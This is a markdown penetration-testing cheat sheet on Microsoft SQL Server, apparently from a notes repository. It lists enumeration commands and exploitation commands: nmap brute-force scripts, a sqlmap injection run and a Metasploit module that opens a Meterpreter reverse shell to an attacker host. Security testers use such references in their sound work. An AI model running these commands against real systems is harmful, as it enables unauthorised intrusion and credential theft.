 # SQL

## Enumeration

### Metasploit

##### mssql_ping
```bash
use auxiliary/scanner/mssql/mssql_ping
set RHOSTS [IP]
set RPORT 1433
run
```

##### mssql_enum
```bash
use auxiliary/scanner/mssql/mssql_enum
set RHOSTS [IP]
set RPORT 1433
run
```

### Nmap

##### nmap (SQL Server version detection)
```bash
nmap -p 1433 --script=ms-sql-info [IP]
```

##### nmap (SQL Server brute-force)
```bash
nmap -p 1433 --script=ms-sql-brute [IP]
```

##### nmap (SQL Server OS Fingerprint)
```bash
nmap -p 1433 --script=ms-sql-os-fingerprint [IP]
```

### sqlcmd

##### sqlcmd (Check SQL Server connection)
```bash
sqlcmd -S [IP],1433 -U [username] -P [password]
```

### Enum4Linux

##### enum4linux (Check for MSSQL Server)
```bash
enum4linux -S [IP]
```

### SQLPing

##### sqlping (Ping SQL Server)
```bash
sqlping [IP]
```

### SQSH

##### sqsh (Connect to SQL Server)
```bash
sqsh -S [IP] -U [USER]
```


---
---


## Exploitation

### Metasploit

##### mssql_payload
```bash
use exploit/windows/mssql/mssql_payload
set RHOSTS [IP]
set RPORT 1433
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```

##### mssql_sql_attack
```bash
use exploit/windows/mssql/mssql_sql_attack
set RHOSTS [IP]
set RPORT 1433
set SQLINJECTION [payload]
run
```

### Nmap

##### nmap (SQL Server brute-force login)
```bash
nmap -p 1433 --script=ms-sql-brute --script-args userdb=[userlist],passdb=[passlist] [IP]
```

### sqlmap

##### sqlmap (SQL Injection attack)
```bash
sqlmap -u http://[IP]/[path] --risk=3 --level=5 --threads=10 --dbs
```